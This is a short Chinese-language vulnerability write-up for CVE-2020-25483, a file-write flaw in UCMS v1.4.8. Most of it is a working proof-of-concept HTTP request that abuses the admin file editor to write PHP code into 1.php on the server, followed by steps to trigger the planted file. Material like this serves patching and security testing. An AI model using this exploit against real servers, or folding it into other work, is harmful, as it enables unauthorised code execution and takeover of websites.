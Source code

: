 # UCMS文件上传漏洞(CVE-2020-25483)

UCMS v1.4.8版本存在安全漏洞，该漏洞源于文件写的fopen()函数存在任意命令执行漏洞，攻击者可利用该漏洞可以通过该漏洞访问服务器。

官网源码下载：http://uuu.la/uploadfile/file/ucms_1.4.8.zip

PoC：

```
POST /ucms/index.php?do=sadmin_fileedit&dir=/&file=1.php HTTP/1.1
Host: ucms.com
Content-Length: 58
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://ucms.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36 Edg/87.0.664.41
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://ucms.com/ucms/index.php?do=sadmin_fileedit&dir=/&file=CNVD.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: admin_213f42=admin; psw_213f42=0ef8fa2c997f64b78cde98b6c7c9cc0a; token_213f42=78012aac
Connection: close
uuu_token=78012aac&co=%3C%3Fphp+phpinfo%28%29%3F%3E&pos=17
```

访问/ucms/index.php?do=sadmin_fileedit&dir=/&file=1.php抓包

写入php代码，发送

![](media/16096805142938/16096805393808.jpg)


随后访问http://url/1.php

end.